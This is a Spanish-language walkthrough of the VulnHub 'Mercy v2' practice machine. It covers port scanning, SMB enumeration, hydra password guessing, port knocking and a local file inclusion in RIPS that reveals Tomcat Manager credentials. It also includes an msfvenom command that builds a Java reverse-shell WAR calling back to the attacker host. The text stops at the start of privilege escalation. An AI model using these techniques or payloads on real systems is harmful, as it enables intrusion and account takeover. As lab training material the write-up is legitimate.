 # MERCYv2
Desarrollo del CTF MERCERY V2


## 1. Configuración de la VM

- Download: https://www.vulnhub.com/entry/digitalworldlocal-mercy-v2,263/

## 2. Escaneo de Puertos

```
nmap -n -P0 -p- -sC -sV -O -T5 -oA full 10.10.10.143
Nmap scan report for 10.10.10.143
Host is up (0.00078s latency).
Not shown: 65525 closed ports
PORT     STATE    SERVICE     VERSION
22/tcp   filtered ssh
53/tcp   open     domain      ISC BIND 9.9.5-3ubuntu0.17 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.17-Ubuntu
80/tcp   filtered http
110/tcp  open     pop3        Dovecot pop3d
|_pop3-capabilities: CAPA SASL AUTH-RESP-CODE RESP-CODES PIPELINING UIDL TOP STLS
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp  open     imap        Dovecot imapd (Ubuntu)
|_imap-capabilities: more IMAP4rev1 ID have LITERAL+ Pre-login post-login LOGIN-REFERRALS listed capabilities OK LOGINDISABLEDA0001 IDLE ENABLE SASL-IR STARTTLS
445/tcp  open     netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
993/tcp  open     ssl/imaps?
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-08-24T13:22:55
|_Not valid after:  2028-08-23T13:22:55
|_ssl-date: TLS randomness does not represent time
995/tcp  open     ssl/pop3s?
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-08-24T13:22:55
|_Not valid after:  2028-08-23T13:22:55
|_ssl-date: TLS randomness does not represent time
8080/tcp open     http        Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
| http-robots.txt: 1 disallowed entry 
|_/tryharder/tryharder
|_http-title: Apache Tomcat
MAC Address: 00:0C:29:0E:13:4F (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: MERCY; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -2h39m58s, deviation: 4h37m07s, median: 0s
|_nbstat: NetBIOS name: MERCY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: mercy
|   NetBIOS computer name: MERCY\x00
|   Domain name: \x00
|   FQDN: mercy
|_  System time: 2021-03-22T01:34:28+08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-21T17:34:28
|_  start_date: N/A
```

- Llama la atención TCP/80 y TCP/22 que aparecen como FILTERED. Un probable PORT KNOCKING.

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy1.jpg" width=80% />


## 3. Enumeración

- Iniciamos la enumeración. Los puertos IMAP y POP3 no me brindó información importante.

### 3.1. Enumeración NETBIOS

- Identificamos la carpeta QIU compartida en el servidor.

```
root@kali:~/MERCY# smbclient -L \\10.10.10.143 -N

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	qiu             Disk      
	IPC$            IPC       IPC Service (MERCY server (Samba, Ubuntu))

```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy2.jpg" width=80% />

- El ENUM4LINUX nos brinda información interesante de usuarios (el resultado es muy grande, coloco lo mas importante)

```
 ============================= 
|    Users on 10.10.10.143    |
 ============================= 
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: pleadformercy	Name: QIU	Desc: 
index: 0x2 RID: 0x3e9 acb: 0x00000010 Account: qiu	Name: 	Desc: 

user:[pleadformercy] rid:[0x3e8]
user:[qiu] rid:[0x3e9]
	User Name   :	qiu
	Full Name   :	
	Home Drive  :	\\mercy\qiu
	Dir Drive   :	
	Profile Path:	\\mercy\qiu\profile
  
  User Name   :	pleadformercy
	Full Name   :	QIU
	Home Drive  :	\\mercy\pleadformercy
	Dir Drive   :	
	Profile Path:	\\mercy\pleadformercy\profile

S-1-22-1-1002 Unix User\thisisasuperduperlonguser (Local User)
Use of uninitialized value $user_info in pattern match (m//) at ./enum4linux.pl line 932.

S-1-22-1-1003 Unix User\fluffy (Local User)
Use of uninitialized value $user_info in pattern match (m//) at ./enum4linux.pl line 932.
```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy3.jpg" width=80% />

> En resumen tenemos: 04 usuarios identificados (qiu, pleadformercy, thisisasuperduperlonguser, fluffy) y una carpeta compartida (qiu).


### 3.2. Enumeración de TOMCAT

- Buscamos archivos en el servidor web TOMCAT.

```
root@kali:~/MERCY# nikto -h http://10.10.10.143:8080/ 

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.143
+ Target Hostname:    10.10.10.143
+ Target Port:        8080
+ Start Time:         2021-03-21 15:55:31 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" contains 1 entry which should be manually viewed.
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /: Appears to be a default Apache Tomcat install.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ /manager/html: Default Tomcat Manager / Host Manager interface found
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/status: Default Tomcat Server Status interface found
+ 8170 requests: 0 error(s) and 13 item(s) reported on remote host
```

- Encontramos el archivo robots.txt, dentro un mensaje en BASE64. 

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy4.jpg" width=80% />

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy5.jpg" width=80% />

- El mensaje nos indica que han encontrado contraseñas del tipo "password". Una pista.

- También identificamos carpetas por defecto en TOMCAT. Nada importante.

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy6.jpg" width=80% />

## 4. Explotando la Vulnerabilidad

- Tenemos 04 usuarios y el posible uso de la contraseña "password". Tenemos varios protocolos donde probar: TOMCAT MANAGER, SMB, IMAP, POP3.

### 4.1. Acceso por SMB

```
root@kali:~/MERCY# hydra -V -L users.txt -P pass.txt smb://10.10.10.143
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-22 19:49:49
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 12 login tries (l:4/p:3), ~12 tries per task
[DATA] attacking smb://10.10.10.143:445/
[ATTEMPT] target 10.10.10.143 - login "qiu" - pass "password" - 1 of 12 [child 0] (0/0)
[445][smb] host: 10.10.10.143   login: qiu   password: password
[ATTEMPT] target 10.10.10.143 - login "pleadformercy" - pass "password" - 4 of 12 [child 0] (0/0)
[ATTEMPT] target 10.10.10.143 - login "pleadformercy" - pass "password123" - 5 of 12 [child 0] (0/0)
[ATTEMPT] target 10.10.10.143 - login "pleadformercy" - pass "P@ssw0rd" - 6 of 12 [child 0] (0/0)
[ATTEMPT] target 10.10.10.143 - login "thisisasuperduperlonguser" - pass "password" - 7 of 12 [child 0] (0/0)
[445][smb] Host: 10.10.10.143 Account: thisisasuperduperlonguser Error: Invalid account (Anonymous success)
[ATTEMPT] target 10.10.10.143 - login "fluffy" - pass "password" - 10 of 12 [child 0] (0/0)
[ATTEMPT] target 10.10.10.143 - login "fluffy" - pass "password123" - 11 of 12 [child 0] (0/0)
[ATTEMPT] target 10.10.10.143 - login "fluffy" - pass "P@ssw0rd" - 12 of 12 [child 0] (0/0)
```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy7.jpg" width=80% />


- Identificamos los accesos qiu:user, vamos a probar el acceso a la carpeta qiu que habiamos identificado en la enumeración.

```
root@kali:~/MERCY# smbmap -H 10.10.10.143 -u qiu -p password -R qiu
[+] IP: 10.10.10.143:445	Name: 10.10.10.143                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	qiu                                               	READ ONLY	
	.\qiu\*
	dr--r--r--                0 Fri Aug 31 15:07:00 2018	.
	dr--r--r--                0 Mon Nov 19 11:59:09 2018	..
	fr--r--r--             3637 Sun Aug 26 09:19:34 2018	.bashrc
	dr--r--r--                0 Sun Aug 26 10:23:24 2018	.public
	fr--r--r--              163 Fri Aug 31 15:11:34 2018	.bash_history
	dr--r--r--                0 Fri Aug 31 14:22:05 2018	.cache
	dr--r--r--                0 Sun Aug 26 12:35:34 2018	.private
	fr--r--r--              220 Sun Aug 26 09:19:34 2018	.bash_logout
	fr--r--r--              675 Sun Aug 26 09:19:34 2018	.profile
	.\qiu\.public\*
	dr--r--r--                0 Sun Aug 26 10:23:24 2018	.
	dr--r--r--                0 Fri Aug 31 15:07:00 2018	..
	dr--r--r--                0 Sun Aug 26 10:24:21 2018	resources
	.\qiu\.public\resources\*
	dr--r--r--                0 Sun Aug 26 10:24:21 2018	.
	dr--r--r--                0 Sun Aug 26 10:23:24 2018	..
	fr--r--r--               54 Sun Aug 26 10:24:21 2018	smiley
	.\qiu\.cache\*
	dr--r--r--                0 Fri Aug 31 14:22:05 2018	.
	dr--r--r--                0 Fri Aug 31 15:07:00 2018	..
	fr--r--r--                0 Fri Aug 31 14:22:05 2018	motd.legal-displayed
	.\qiu\.private\*
	dr--r--r--                0 Sun Aug 26 12:35:34 2018	.
	dr--r--r--                0 Fri Aug 31 15:07:00 2018	..
	dr--r--r--                0 Thu Aug 30 12:36:50 2018	opensesame
	fr--r--r--               94 Sun Aug 26 10:22:35 2018	readme.txt
	dr--r--r--                0 Mon Nov 19 12:01:09 2018	secrets
	.\qiu\.private\opensesame\*
	dr--r--r--                0 Thu Aug 30 12:36:50 2018	.
	dr--r--r--                0 Sun Aug 26 12:35:34 2018	..
	fr--r--r--              539 Thu Aug 30 12:39:14 2018	configprint
	fr--r--r--            17543 Fri Aug 31 15:11:56 2018	config
```

- Dentro de la carpeta PRIVATE y OPENSESAME hay un archivo CONFIG interesante. Contiene la configuración de un PORT NOCK.

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy8.jpg" width=80% />

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy9.jpg" width=80% />

### 4.2. Abiendo los puertos PORT NOCK

- Vamos abrir los puertos TCP/80 y TCP/22.

```
root@kali:~/MERCY# knock 10.10.10.143 159 27391 4
root@kali:~/MERCY# knock 10.10.10.143 17301 28504 9999
root@kali:~/MERCY# nmap -n -P0 -p 22,80 -sV 10.10.10.143
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-22 20:05 EDT
Nmap scan report for 10.10.10.143
Host is up (0.00034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
MAC Address: 00:0C:29:0E:13:4F (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy10.jpg" width=80% />


### 4.3. Enumeración de TCP/80 

- Nos toca enumerar nuevamente, esta vez con el puerto TCP/80 abierto. GOBUSTER, DIRSEARCH y NIKTO, lo básico.

```
root@kali:~/MERCY/autorecon2/10.10.10.143/scans# cat tcp_80_http_gobuster.txt 
/.hta (Status: 403) [Size: 283]
/.hta.txt (Status: 403) [Size: 287]
/.hta.html (Status: 403) [Size: 288]
/.hta.php (Status: 403) [Size: 287]
/.hta.asp (Status: 403) [Size: 287]
/.hta.aspx (Status: 403) [Size: 288]
/.hta.jsp (Status: 403) [Size: 287]
/.htaccess (Status: 403) [Size: 288]
/.htaccess.html (Status: 403) [Size: 293]
/.htaccess.php (Status: 403) [Size: 292]
/.htaccess.asp (Status: 403) [Size: 292]
/.htaccess.aspx (Status: 403) [Size: 293]
/.htaccess.jsp (Status: 403) [Size: 292]
/.htaccess.txt (Status: 403) [Size: 292]
/.htpasswd (Status: 403) [Size: 288]
/.htpasswd.txt (Status: 403) [Size: 292]
/.htpasswd.html (Status: 403) [Size: 293]
/.htpasswd.php (Status: 403) [Size: 292]
/.htpasswd.asp (Status: 403) [Size: 292]
/.htpasswd.aspx (Status: 403) [Size: 293]
/.htpasswd.jsp (Status: 403) [Size: 292]
/index.html (Status: 200) [Size: 90]
/index.html (Status: 200) [Size: 90]
/login.html (Status: 200) [Size: 67]
/robots.txt (Status: 200) [Size: 50]
/robots.txt (Status: 200) [Size: 50]
/server-status (Status: 403) [Size: 292]
/time (Status: 200) [Size: 79]


root@kali:~/MERCY/autorecon2/10.10.10.143/scans# cat tcp_80_http_nikto.txt 
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.143
+ Target Hostname:    10.10.10.143
+ Target Port:        80
+ Start Time:         2021-03-21 15:54:54 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-3268: /mercy/: Directory indexing found.
+ Entry '/mercy/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Cookie stylesheet created without the httponly flag
+ Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.25
+ Entry '/nomercy/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 2 entries which should be manually viewed.
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 5a, size: 5745661f170dc, mtime: gzip
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.html: Admin login page/section found.
```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy11.jpg" width=80% />

- Encontramos lo siguiente: robots.txt, la carpeta /mercy/ y /nomercy/, la fecha en /time

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy12.jpg" width=80% />

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy13.jpg" width=80% />


### 4.3. Explotando RIPS

- Aunque era algo casi obvio, lo mas probable era que RIPS (la aplicacion en la carpeta /nomercy/) tuviera alguna vulnerabilidad.
- Buscamos en EXPLOIT-DB.COM e identificamos un LFI (Local File Inclusion).

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy14.jpg" width=80% />

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy15.jpg" width=80% />

```
<? root:x:0:0:root:/root:/bin/bash
<? daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<? bin:x:2:2:bin:/bin:/usr/sbin/nologin
<? sys:x:3:3:sys:/dev:/usr/sbin/nologin
<? sync:x:4:65534:sync:/bin:/bin/sync
<? games:x:5:60:games:/usr/games:/usr/sbin/nologin
<? man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
<? lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
<? mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
<? news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
<? uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
<? proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
<? www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
<? backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
<? list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
<? irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
<? gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
<? nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
<? libuuid:x:100:101::/var/lib/libuuid:
<? syslog:x:101:104::/home/syslog:/bin/false
<? landscape:x:102:105::/var/lib/landscape:/bin/false
<? mysql:x:103:107:MySQL Server,,,:/nonexistent:/bin/false
<? messagebus:x:104:109::/var/run/dbus:/bin/false
<? bind:x:105:116::/var/cache/bind:/bin/false
<? postfix:x:106:117::/var/spool/postfix:/bin/false
<? dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/bin/false
<? dovecot:x:108:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
<? dovenull:x:109:120:Dovecot login user,,,:/nonexistent:/bin/false
<? sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
<? postgres:x:111:121:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
<? avahi:x:112:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
<? colord:x:113:124:colord colour management daemon,,,:/var/lib/colord:/bin/false
<? libvirt-qemu:x:114:108:Libvirt Qemu,,,:/var/lib/libvirt:/bin/false
<? libvirt-dnsmasq:x:115:125:Libvirt Dnsmasq,,,:/var/lib/libvirt/dnsmasq:/bin/false
<? tomcat7:x:116:126::/usr/share/tomcat7:/bin/false
<? pleadformercy:x:1000:1000:pleadformercy:/home/pleadformercy:/bin/bash
<? qiu:x:1001:1001:qiu:/home/qiu:/bin/bash
<? thisisasuperduperlonguser:x:1002:1002:,,,:/home/thisisasuperduperlonguser:/bin/bash
<? fluffy:x:1003:1003::/home/fluffy:/bin/sh 
```

- Toca automatizar la búsqueda de información importante a través de LFI. Desde el inicio el TOMCAT me parecia una manera de ganar acceso a través de TOMCAT MANAGER.
- Busqué la RUTA por defecto del archivo de configuración del TOMCAT MANAGER y encontré la contraseña.

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy16.jpg" width=80% />


### 4.4. Accediendo a TOMCAT MANAGER

- Colocamos las credenciales en http://10.10.10.143:8080/manager/html thisisasuperduperlonguser:heartbreakisinevitable

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy17.jpg" width=80% />

- Subimos nuestra webshell y obtenemos conexión reversa.

```
root@kali:~/MERCY# msfvenom -p java/shell/reverse_tcp LHOST=10.10.10.133 LPORT=443 -f war -o reverse.war
Payload size: 6252 bytes
Final size of war file: 6252 bytes
Saved as: webshell.war
```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy18.jpg" width=80% />


## 5. Elevando Privilegios

- Toca buscar con paciencia. No olvidemos las contraseñas que hemos obtenido hasta ahora:


| Usuario | Password |
| -- | -- | 
| thisisasuperduperlonguser|heartbreakisinevitable |
| fluffy|freakishfluffybunny |
| qiu|password |

- Después de haber buscado un largo momento y haber probado diferentes técnicas, encontré un archivo importante con MUCHOS PERMISOS y que le pertenece al usuario ROOT.
- Ingresamos con el usuario fluffy:freakishfluffybunny y encontramos el archivo TIMECLOCK

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy19.jpg" width=80% />




















